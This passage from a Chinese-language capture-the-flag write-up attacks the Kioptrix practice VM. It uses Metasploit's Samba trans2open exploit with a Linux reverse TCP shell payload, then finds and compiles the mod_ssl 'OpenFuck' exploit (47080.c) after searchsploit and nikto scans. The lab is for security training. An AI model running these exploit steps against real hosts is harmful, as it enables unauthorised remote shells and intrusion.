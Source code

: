 通过版本在`msf`中搜索可执行漏洞，这里注意，漏洞都是同一种`trans2open`，只是操作系统不同，这里靶机为`linux`操作系统，所以根据操作系统去选择

```shell
search type:exploit samba 2.2
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\12.jpg)

```shell
use 2
options

set rhost 192.168.1.104
//端口默认目标的是139
```

这里需要设置一个`payload`进行监听反弹`shell`，所以需要设置`linux`的监听

```shell
set payload linux/x86/shell/reverse_tcp
//脚本很多，选择其中一个即可
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\13.jpg)

这时候执行，等待缓冲区溢出的爆破，一会即可发现反弹成功

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\14.jpg)



# web应用漏洞寻找利用

在之前使用`nmap`扫描时，确定443端口服务的版本`mod_ssl 2.8.4`，尝试进行搜索了一下，发现有版本范围内的一个漏洞`openfuck`

```shell
searchsploit mod_ssl 2.8.4
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\15.jpg)

再使用`nikto`测试，发现也是有提到，可能存在

```shell
nikto -h 192.168.1.104
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\16.jpg)

测试，直接使用`remote buffer overflow`，这个是我个人习惯，采用最新版本。

查看这个`c`文件，其中有用法，以及条件

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\17.jpg)

那么就执行安装后，然后再编译

```shell
apt-get install libssl-dev
gcc -o openfuck 47080.c -lcrypto
```
